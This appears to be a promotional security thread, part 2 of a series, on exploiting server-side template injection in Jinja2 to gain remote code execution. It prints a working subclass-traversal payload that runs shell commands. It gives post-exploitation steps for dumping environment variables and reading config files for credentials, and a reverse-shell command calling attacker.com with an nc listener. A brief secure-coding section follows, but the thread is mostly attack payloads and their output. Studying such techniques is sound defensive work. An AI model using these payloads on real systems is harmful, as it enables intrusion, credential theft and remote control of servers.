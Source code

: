 ![Advanced RCE Techniques2](https://github.com/user-attachments/assets/007c0c51-d284-450c-bce9-152b52bc3c6a)

# 🚨 Advanced RCE Techniques via File Extensions, PHP Uploads & SSTI [Part 2/2]

## 💥 [Part 2] From SSTI to Full Shell Access

In Part 1, we weaponized file extensions and PHP uploads. Today, we’re digging into Server-Side Template Injection (SSTI) — one of the most powerful RCE paths when template engines aren’t sandboxed.

### [1/20] 🧩 What is SSTI?

SSTI occurs when a template engine renders unsanitized user input, allowing attackers to inject code.

Popular engines often affected:

- Jinja2 (Python)
- Twig (PHP)
- Freemarker (Java)
- Velocity (Java)

### [2/20] 🧪 Target Scenario

The web app lets users customize email templates:

```html
"Hello {{ http://customer.name }}"
```

Now imagine we can inject that value — what happens if we put code inside the double braces?

### [3/20] 🔢 Initial Payload – Logic Execution Test

We send:

```jinja
{{ 7*7 }}
```

If the output is:

```text
Hello 49
```

✅ The app is vulnerable — it parsed your math expression. Let’s move to RCE.

### [4/20] 🔍 Under the Hood: Jinja2 Exploitation

With Jinja2, you can:

- Traverse Python object classes
- Access __builtins__
- Import os, run system commands

This is how we get from simple math to shell access.

### [5/20] 🔥 Full Payload: RCE via Subclass Traversal

```jinja
{% for x in ().__class__.__base__.__subclasses__() %}
{% if 'warning' in x.__name__ %}
{{ x()._module.__builtins__['__import__']('os').popen('whoami').read() }}
{% endif %}
{% endfor %}
```

☠️ This finds warnings.catch_warnings, uses it to access __builtins__, then runs shell commands.

### [6/20] 🧨 Live Output from Payload

If you’re successful, the server renders:

```text
Hello Hacker
www-data
```

Boom. SSTI escalated to RCE. You’re inside.

### [7/20] 🔐 Post-Exploitation Tactics

With os.popen() or subprocess.Popen, you can now:

#### Dump environment variables:
```python
os.environ
```

Extract API keys, AWS credentials, tokens.

#### Read config files:
```python
os.popen('cat settings.py').read()
```

### [8/20] 🛠️ Reverse Shell via SSTI

Want a shell? Inject:

```bash
os.popen("bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'")
```

Set up a listener on your machine:

```bash
nc -lvnp 4444
```

🎯 Shell drops instantly.

### [9/20] ⚠️ Root Causes Summary

Why do these RCEs exist?

- Using pathinfo() without sanitization
- Accepting dangerous file extensions
- Rendering unsanitized user input in templates
- No separation of logic and content

### [10/20] 🛡️ Secure Coding Tips

#### 📌 For command injection:
- Sanitize user input
- Avoid shell_exec entirely
- Use safe wrappers (e.g., FFmpeg bindings)

#### 📌 For uploads:
- Rename + sanitize filenames
- Restrict file types and MIME
- Never allow execution in upload dirs

#### 📌 For SSTI:
- Use StrictUndefined in Jinja2
- Treat template data as untrusted
- Separate template logic from user data

## 💡 Key Takeaway

Every RCE vector started by trusting user input.

Whether it’s:

- A filename
- An uploaded image
- A rendered template

Ask yourself:

🔎 “Where does this data go? Can it reach the shell, interpreter, or engine?”

That’s where the exploit lives.

💥 These are real-world issues, not just CTF trivia. I’ve exploited these in:

- Laravel + PHP monoliths
- Flask/Django CRMs
- Legacy admin dashboards

And attackers are using them in the wild — right now.

---

🧠 Build labs. Detect patterns. Harden your stack.

🎯 Master RCE and take your red teaming to the next level.

---

💬 Share this thread, tag your hacker friends, and let me know what technique surprised you most!

---

📢 Join [@cybersecplayground](https://t.me/cybersecplayground) for elite PoCs, payload drops, red team tactics, and more.

#RCE #SSTI #CyberSecurity #BugBounty #CTF #Exploit #Jinja2 #TemplateInjection #ReverseShell #WebSecurity
